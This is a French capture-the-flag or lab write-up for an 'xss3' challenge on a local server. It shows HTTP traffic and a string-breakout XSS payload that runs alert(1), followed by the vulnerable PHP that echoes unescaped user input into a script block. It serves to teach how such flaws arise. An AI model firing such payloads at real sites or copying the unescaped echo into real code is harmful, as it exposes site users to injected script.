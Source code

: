 # xss3

## Exploitation

A nouveau une fonctionnalité de recherche pour ce troisième challenge, mais le mot renseigné doit être un nom d'utilisateur :&#x20;

![](<../../../.gitbook/assets/image (1) (2).png>)

Lorsque je renseigne un nom d'utilisateur, il n'est ni réfléchi dans un message d'erreur, ni en tant que valeur du champ :&#x20;

```http
POST /xss3/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss3/

name=whatever&submit=Envoyer
```

Je recherche alors le nom directement dans la réponse HTTP :&#x20;

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 1908
Connection: close
Content-Type: text/html; charset=UTF-8


<!DOCTYPE html>
<html>
  <head>
    <title>XSS 3</title>
    <link rel="stylesheet" href="../static/css/bootstrap.min.css" />
  </head>
  <body>
    ...
    <script>
      var name="whatever";
    </script>
  </body>
</html>
```

Le nom d'utilisateur renseigné est donc présent en tant que valeur d'une variable Javascript. Je tente assez simplement de sortir de la valeur avec le `"` puis d'exécuter l'affichage de la modale. Le commentaire, à la fin de ma payload, va permettre de se débarrasser des caractères superflus provenant de la concaténation effectuée dans le code `whatever";alert(1);//` :

```http
POST /xss3/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 55
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss3/

name=whatever%22%3Balert%281%29%3B%2F%2F&submit=Envoyer
```

![](<../../../.gitbook/assets/image (15) (1).png>)

## Analyse du code source

Le nom d'utilisateur renseigné est récupéré dans la variable `$username`. Cette variable est affichée grâce à la directive `echo` directement au sein d'un bloc Javascript en tant que valeur de la variable `name` :

```php
<?php
  if (isset ($_POST['submit']) && isset ($_POST['name'])) {
    $username = $_POST['name'];
  }
?>

<script>
    <?php if (isset ($username) && !empty ($username)): echo ("var name=\"$username\";");?>
    <?php endif; ?>
</script>
```
